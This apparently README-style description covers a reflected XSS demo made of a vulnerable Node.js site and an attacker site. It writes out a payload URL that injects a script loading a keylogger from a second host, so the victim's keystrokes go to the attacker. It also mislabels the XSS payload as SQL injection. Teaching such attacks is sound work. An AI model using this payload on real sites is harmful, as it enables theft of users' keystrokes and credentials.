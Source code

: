 # XSS REFLECTED
"This deals with reflected XSS vulnerabilities. You will find a vulnerable Node.js website and an attacking website. The attacker sends a link to the victim. This link executes a keylogger present on the attacker's site. The keystrokes are transmitted to the attacker's website. The URL of the site is http://localhost:3000, and the URL with the SQL injection sent to the victim is : 
```bash
http://localhost:3000/?name=<script src="http://localhost:3001/keylogger.js\"></script>."
```
